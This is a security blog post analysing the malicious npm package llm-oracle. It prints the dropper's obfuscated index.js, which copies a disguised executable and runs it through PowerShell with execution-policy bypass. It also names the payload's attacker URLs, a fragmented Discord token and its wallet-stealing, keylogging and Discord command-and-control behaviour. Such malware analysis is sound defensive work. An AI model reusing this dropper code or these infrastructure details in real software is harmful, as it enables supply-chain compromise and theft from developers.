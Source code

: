 ```yaml
---
publishDate: 2024-11-04T00:00:00Z
title: 'Malicious Open Source Library Analysis: llm-oracle and its Payload'
image: /images/open-source-pkg-malware-analysis-llm-oracle.png
excerpt: Malware hidden in open source library packages are real. In this article, we analyse the malicious npm package llm-oracle.
tags:
  - vet
  - cloud
  - malware
---
```



The good folks at [socket.io](https://socket.io) published their research on
[Supply Chain Attacks Targeting LLM Application Developers: The Hidden Dangers of Fake Open Source Packages](https://socket.dev/blog/supply-chain-attacks-targeting-llm-application-developers) in which they shared their findings on discovery and analysis
of malicious npm package `llm-oracle`. This was interesting to us because
[vet](https://github.com/safedep/vet) detects a similar package, `redis-oracle`
as malicious but not `llm-oracle`. We decided to take a closer look at `llm-oracle`.

## Scanning for Malware using `vet`

[vet](https://github.com/safedep/vet) can be used to scan a package by its Package URL.

```shell
vet scan --purl pkg:/npm/redis-oracle@0.0.0
```

This results in a detection as expected

<Image src={VetRedisOracleMalwareScan} alt="vet scan result for redis-oracle" />

However, when we scan `llm-oracle`, we do not get any detection. This is not
entirely surprising because `vet` by default depends on [Package Analysis](https://github.com/ossf/package-analysis)
data for malware detection, which may not be accurate or up-to-date.

## Manual Analysis of `llm-oracle`

We decided to manually analyse `llm-oracle`. The first step was to identify
package metadata from npm registry.

```shell
npm view llm-oracle
```

This produces some useful information including author, publisher and URL
of the latest version of the package.

```shell
llm-oracle@1.0.2 | MIT | deps: 28 | versions: 3
[...]
dist
.tarball: https://registry.npmjs.org/llm-oracle/-/llm-oracle-1.0.2.tgz
[...]
dependencies:
[...]
maintainers:
- josh.weavery <josh.weavery@gmail.com>
published 3 months ago by josh.weavery <josh.weavery@gmail.com>
```

We then fetched the tarball and extracted the contents for local analysis. The
archive contained the following files:

```shell
-rw-r--r--  1 dev  wheel  16773255 Oct 26  1985 Base64Decode.ts
-rw-r--r--  1 dev  wheel       252 Oct 26  1985 HISTORY.md
-rw-r--r--  1 dev  wheel      1111 Oct 26  1985 LICENSE
-rw-r--r--  1 dev  wheel      3105 Oct 26  1985 README.md
-rw-r--r--  1 dev  wheel      2665 Oct 26  1985 index.js
-rw-r--r--  1 dev  wheel      2170 Oct 26  1985 package.json
```

The first step in any malware analysis process is to identify the file types.
The simplest way to do that is using the `file(1)` command. Surprisingly, the
first step itself gave us a strong malware indicator.

```shell
Base64Decode.ts: PE32+ executable (GUI) x86-64, for MS Windows
HISTORY.md:      ASCII text, with CRLF line terminators
LICENSE:         ASCII text, with CRLF line terminators
README.md:       ASCII text, with CRLF line terminators
index.js:        ASCII text, with CRLF line terminators
package.json:    JSON data
```

The `Base64Decode.ts` was a Windows `x86_64` executable with a `.ts` extension.
Before we jump right into the payload, we wanted to look into the dropper
`index.js` to confirm the behaviour. The `index.js` contained the following
semi-obfuscated code:

```javascript
const targetFilePath = path.join(
  process.env.LOCALAPPDATA,
  String('\u0063\u0068\u0072\u006f\u006d\u0065\u002e\u0065\u0078\u0065').replace(/\+/g, '')
);
```

```javascript
if (!fs.existsSync(targetFilePath)) {
  setTimeout(() => {
    fs.copyFileSync(modelFilePath, targetFilePath);
    exec(
      `p\u006fwersh\u0065ll -\u0045x\u0065cut\u0069\u006fnP\u006fl\u0069cy Byp\u0061ss St\u0061rt-Pr\u006fcess -F\u0069leP\u0061th '${targetFilePath}' -V\u0065rb R\u0075n\u0041s`,
      (error, stdot, stderr) => {}
    );
  }, 60000);
}
```

While advanced malware analysis techniques may differ (j/k), we used the good
old `ruby` interpreter to view the obfuscated strings

```shell
irb(main):001:0> "\u0063\u0068\u0072\u006f\u006d\u0065\u002e\u0065\u0078\u0065"
=> "chrome.exe"
```

```shell
irb(main):006:0> "f\u0073.copyFileSync(m\u006fd\u0065lFileP\u0061th, t\u0061rg\u0065tFileP\u0061th); e\u0078ec(`p\u006fwersh\u0065ll -\u0045x\u0065cut\u0069\u006fnP\u006fl
\u0069cy Byp\u0061ss St\u0061rt-Pr\u006fcess -F\u0069leP\u0061th '${t\u0061rg\u0065tFileP\u0061th}' -V\u0065rb R\u0075n\u0041s`, (err\u006fr, std\u006ft, std\u0065rr)"
=> "fs.copyFileSync(modelFilePath, targetFilePath); exec(`powershell -ExecutionPolicy Bypass Start-Process -FilePath '${targetFilePath}' -Verb RunAs`, (error, stdot, stderr)"
```

### The Payload

From `index.js`, we can identify that `Base64Decode.ts`, a Windows executable
was copied as `chrome.exe` to `%LOCALAPPDATA%` and executed using
`powershell.exe`. To understand the behaviour of the payload, we needed to get
our hands dirty with our old friend [IDA Pro](#) or its close cousin
[Ghidra](#). But unfortunately, `strings(1)` put us on a different path. We
found the following strings in the payload that indicated it was a Python
script packaged as executable using `PyInstaller`.

```shell
Cannot open PyInstaller archive from executable (%s) or external archive (%s)
Installing PYZ: Could not get sys.path!
PYINSTALLER_STRICT_UNPACK_MODE
PyInstaller: FormatMessageW failed.
PyInstaller: pyi_win32_utils_to_utf8 failed.
```

Extracting the `PyInstaller` archive from the executable gave us the following
files:

<Image src={VetLlmOracleExtractedFiles} alt="Extracted files from llm-oracle payload" />

Among these files, `OH8xADfF8q.pyc` looked interesting with strings like

```shell
'D:\work\Python-Trojan-src\OH8xADfF8q.py
```

`0H8xADfF8q.pyc` in turn decompiles to something like this

```python
import os
import discord
[...]
exec(base64.b64decode(bytes('aW1wb3J0IGJhc2U2NDtl...', 'utf-8')).decode('utf-8'))
```

The base64 encoded string contains the actual payload, which decodes to
a Python script that performs various conventional malware activities.

#### Behaviour

- Looks for crypto wallets `metamask`, `tronlink`, `trustwallet`, `coinbase`,
  `flint`, `exodus`, `binance`, `phantom`, `Xverse`, `Slope`, `Solflare`,
  `Typhon`, `nami`, `keplr`, `okx`, `bitski`, `myetherwallet`
- Look for Chrome extension data for these wallets
- Downloads configuration from `https://bayard-front-833a4.web.app/start.dat`

```json
{
  "gid": "12 __76 __201 __8416 __20 __815 __932",
  "tkn": "MT __I __3NjIwMzQ __yNjY __2NDk0 __MzY2Ng.GUg __pUL.X __Xj7OFha __7Z5r __gYZHw __tatOdp3l __i6bZ __HrDQXDCn4"
}
```

- Connects to Discord server using the Guild ID and Token
- Creates a new channel using the current username and a random string
- Starts a keylogger
- Starts taking screenshot of active window
- Sends keystroke and screenshots to the Discord channel
- Starts a full command and control over Discord

#### File Transfer

The payload checks if the file requested for transfer is greater than 25MB. If
so, it fetches configuration from `https://api.gofile.io/getServer` and uploads
to `https://{server}.gofile.io/uploadFile` using Python `requests` library.
When we tried to access the URL, we get a `404 Not Found` response, indicating
the application is probably geo-fenced or checks for some request attribute.

## Conclusion

- `llm-oracle` is a malicious package that contains a Windows executable
- The packaging and sophistication of the malware appears to be low
- Common attacker TTP was used for payload execution using `powershell.exe`,
  `PyInstaller` and `base64` encoding
- We expect AVs and EDRs to detect this payload using behavioural analysis
- Discord was used as C2 server for exfiltration and command and control
